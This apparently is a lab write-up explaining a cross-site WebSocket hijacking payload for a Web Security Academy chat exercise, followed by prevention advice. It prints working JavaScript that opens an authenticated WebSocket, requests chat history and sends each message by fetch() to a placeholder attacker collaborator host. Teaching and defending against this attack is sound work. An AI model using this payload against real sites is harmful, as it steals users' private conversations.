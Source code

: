 # Payload Explained

## **Detailed Analysis of the WebSocket Hijacking Payload**

**Payload Code:**

```javascript
<script>
    var ws = new WebSocket('wss://YOUR-LAB-ID.web-security-academy.net/chat');
    ws.onopen = function() {
        ws.send('READY');
    };
    ws.onmessage = function(event) {
        fetch('https://YOUR-COLLABORATOR-ID', {
            method: 'POST',
            mode: 'no-cors',
            body: event.data
        });
    };
</script>
```

***

### **Step-by-Step Breakdown**

#### **1. Establishing a WebSocket Connection**

```javascript
var ws = new WebSocket('wss://YOUR-LAB-ID.web-security-academy.net/chat');
```

* This line initializes a **new WebSocket connection** to the target server.
* `wss://` is the **secure WebSocket protocol**, similar to `https://` for HTTP.
* The URL `wss://YOUR-LAB-ID.web-security-academy.net/chat` represents the WebSocket endpoint where the chat application is hosted.

#### **2. Sending the "READY" Message**

```javascript
ws.onopen = function() {
    ws.send('READY');
};
```

* Once the WebSocket connection is successfully established, the `onopen` event is triggered.
* The script **sends the message `'READY'`** to the server.
* **Purpose:**
  * The server expects this message before sending the chat history to the client.
  * This is a **critical step in the attack**, as it tricks the server into returning chat messages.

#### **3. Capturing Incoming Messages**

```javascript
ws.onmessage = function(event) {
    fetch('https://YOUR-COLLABORATOR-ID', {
        method: 'POST',
        mode: 'no-cors',
        body: event.data
    });
};
```

* When the server responds with chat messages, the `onmessage` event is triggered.
* `event.data` contains the chat history retrieved from the server.
* This data is then **exfiltrated** to an attacker-controlled server using a `fetch()` request.

#### **4. Sending Data to the Attacker**

```javascript
fetch('https://YOUR-COLLABORATOR-ID', {
    method: 'POST',
    mode: 'no-cors',
    body: event.data
});
```

* The captured chat messages are **sent to the attacker's server**.
* **`method: 'POST'`**
  * Sends the stolen chat history to the attacker’s endpoint.
* **`mode: 'no-cors'`**
  * Ensures the request is sent successfully across origins without browser restrictions.
* **`body: event.data`**
  * The stolen chat messages are included in the body of the request.

***

### **How the Attack Works**

1. **Victim Visits the Malicious Site:**
   * The attacker lures the victim into visiting a webpage hosting the exploit script.
2. **Unauthorized WebSocket Connection is Established:**
   * The script automatically initiates a WebSocket connection to the vulnerable chat server.
3. **Triggering the Chat History Response:**
   * The attacker-controlled script sends the `'READY'` message, prompting the server to return the chat logs.
4. **Exfiltrating Stolen Data:**
   * The script captures the chat history and sends it to an external attacker-controlled server.

***

### **Why This Attack Works**

#### **1. No CSRF Protection in WebSockets**

* WebSockets do not inherently enforce **Cross-Site Request Forgery (CSRF) protection**.
* Since the WebSocket connection **automatically includes authentication cookies**, it allows unauthorized access.

#### **2. Lack of WebSocket Origin Validation**

* The server does **not check the `Origin` header** to confirm if the request is coming from a trusted source.

#### **3. `SameSite=None` Cookie Setting**

* The authentication cookie is set to `SameSite=None`, **allowing it to be sent in cross-origin requests**.

***

### **Preventing WebSocket Hijacking**

#### **1. Implement CSRF Tokens in WebSockets**

* Require a **CSRF token** in the WebSocket handshake:

```javascript
var ws = new WebSocket('wss://example.com/chat?token=SECURE_CSRF_TOKEN');
```

* The server should validate this token before establishing the connection.

#### **2. Validate the `Origin` Header**

* Ensure that only requests from trusted origins are allowed:

```javascript
ws.on('connection', (socket, req) => {
    if (req.headers.origin !== 'https://trustedwebsite.com') {
        socket.terminate();
    }
});
```

* This prevents unauthorized cross-origin WebSocket requests.

#### **3. Secure WebSocket Authentication**

* Instead of **cookie-based authentication**, use **token-based authentication**:

```javascript
ws.onmessage = function(event) {
    const data = JSON.parse(event.data);
    if (!isValidToken(data.token)) {
        ws.close();
    }
};
```

* This ensures that every WebSocket message is authenticated.

#### **4. Restrict Cross-Origin WebSocket Requests**

* Use **Content Security Policy (CSP)** rules to prevent unauthorized WebSocket connections:

```http
Content-Security-Policy: connect-src 'self' https://trustedwebsite.com;
```

* This ensures that only trusted origins can initiate WebSocket connections.

***

### **Conclusion**

* **This payload exploits a lack of CSRF protection and improper WebSocket authentication to hijack chat sessions.**
* **To prevent such attacks, implement CSRF tokens, validate the `Origin` header, and enforce secure authentication mechanisms.**
* **Developers should avoid relying on `SameSite=None` cookies without proper security controls.**
